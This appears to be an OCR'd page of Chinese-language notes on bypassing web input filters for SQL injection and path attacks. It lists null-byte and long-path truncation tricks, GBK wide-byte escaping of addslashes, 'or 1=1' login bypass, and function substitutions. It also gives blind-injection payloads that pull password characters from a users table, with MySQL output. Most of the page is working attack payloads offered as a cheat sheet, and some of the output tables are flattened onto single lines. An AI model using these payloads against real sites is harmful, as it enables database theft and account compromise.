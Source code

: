 ### 截断绕过

   %00,%0A,?,/0,////////////////........////////,%80-%99 目录字符串，在window下256字节、linux下4096字节时会达到最大值，最大值长度之后的字符将被丢弃。 ././././././././././././././././abc ////////////////////////abc ..1/abc/../1/abc/../1/abc

### 宽字节绕过

   PHP在开启magic_quotes_gpc或者使用addslashes、iconv等函数的时候，单引号（'）会被转义成\'。比如字符%bf在满足上述条件的情况下会变成%bf\'。其中反斜杠（\）的十六进制编码是%5C，单引号（'）的十六进制编码是%27，那么就可以得出%bf \'=%bf%5c%27。如果程序的默认字符集是GBK等宽字节字符集，则MySQL会认为%bf%5c是一个宽字符，也就是“縗”。也就是说%bf \'=%bf%5c%27=縗'。

### 万能密钥绕过

   用经典的or 1=1判断绕过,如or ‘swords’ =’swords

### +,-,.号拆解字符串绕过

   ?id=1' or '11+11'='11+11' "-"和”.

### 等价函数与命令绕过

  #### 函数或变量

hex()、bin() ==> ascii() sleep() ==> benchmark() concat_ws()==>group_concat() mid()、substr() ==> substring() @@user ==> user() @@datadir ==> datadir() 

举例：substring()和substr()无法使用时：

```sql
?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74

# 一句
substr((select 'password'),1,1) = 0x70 strcmp(left('password',1), 0x69) = 1		 strcmp(left('password',1), 0x70) = 0 strcmp(left('password',1), 0x71) = -1 

```

## 特殊的绕过函数

1. greatest函数

   通过绕过不能使用大小于符号的情况 greatest(a,b)，返回a和b中较大的那个数。 当我们要猜解user()第一个字符的ascii码是否小于等于150时，可使用： 

```sql
mysql> select greatest(ascii(mid(user(),1,1)),150)=150; +------------------------------------------+ | greatest(ascii(mid(user(),1,1)),150)=150 | +------------------------------------------+ | 1 | +------------------------------------------+ 
```

如果小于150，则上述返回值为True。 

2. substr函数

   通过绕过不能使用逗号的情况 mid(user() from 1 for 1) 或 substr(user() from 1 for 1) mysql> 

   ```sql
   select ascii(substr(user() from 1 for 1)) < 150; +------------------------------------------+ | ascii(substr(user() from 1 for 1)) < 150 | +------------------------------------------+ | 1 | +------------------------------------------+ 
   ```

